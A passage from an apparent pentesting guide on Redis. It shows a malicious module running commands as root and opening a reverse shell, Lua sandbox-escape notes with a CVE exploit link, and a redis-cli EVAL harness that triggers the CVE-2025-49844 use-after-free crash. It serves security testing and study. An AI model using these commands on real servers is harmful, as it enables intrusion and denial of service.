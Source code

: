    ```
   127.0.0.1:6379> system.exec "id"
   "uid=0(root) gid=0(root) groups=0(root)\n"
   127.0.0.1:6379> system.exec "whoami"
   "root\n"
   127.0.0.1:6379> system.rev 127.0.0.1 9999
   ```

6. Unload the module whenever you want: `MODULE UNLOAD mymodule`

### LUA sandbox bypass

[**Here**](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) you can see that Redis uses the command **EVAL** to execute **Lua code sandboxed**. In the linked post you can see **how to abuse it** using the **dofile** function, but [apparently](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) this isn't no longer possible. Anyway, if you can **bypass the Lua** sandbox you could **execute arbitrary** commands on the system. Also, from the same post you can see some **options to cause DoS**.

Some **CVEs to escape from LUA**:

- [https://github.com/aodsec/CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543)

#### Redis Lua Scripting Engine: Sandbox Escapes & Memory Corruption (CVE-2025-49844/46817/46818)

Recent Redis releases fixed multiple issues in the embedded Lua engine that allow sandbox escape, memory corruption and cross-user code execution. These techniques apply when:
- Attacker can authenticate to Redis and Lua is enabled (EVAL/EVALSHA or FUNCTION are usable)
- Redis version is older than 8.2.2, 8.0.4, 7.4.6, 7.2.11, or 6.2.20

Tip: If you are new to Lua sandboxing tricks, check this page for general techniques: 

{{#ref}}
../generic-methodologies-and-resources/lua/bypass-lua-sandboxes/README.md
{{#endref}}

**Patch-level context:**
- Fixed in: 8.2.2, 8.0.4, 7.4.6, 7.2.11, 6.2.20
- Affected when Lua scripting is enabled and the above versions are not applied

**CVE-2025-49844 — GC-timed Use-After-Free in Lua parser (`lparser.c: luaY_parser`)**
- Idea: Force garbage collection while the parser still references a freshly-inserted TString. When GC reclaims it, the parser uses a freed pointer (UAF) → crash/DoS and potential native code execution outside the Lua sandbox.
- Trigger strategy:
  1) Create memory pressure with huge strings to encourage GC activity
  2) Explicitly run GC while a large source chunk is being compiled
  3) Compile a very large Lua script in a loop until GC aligns with parsing

Minimal EVAL harness to reproduce crashes
```bash
# Auth as needed (-a/--user), then run EVAL with 0 keys
redis-cli -h <host> -p 6379 -a <password> EVAL "\
local a = string.rep('asdf', 65536); \
collectgarbage('collect'); \
local src = string.rep('x', 1024 * 1024); \
local f = loadstring(src); \
return 'done'" 0
```
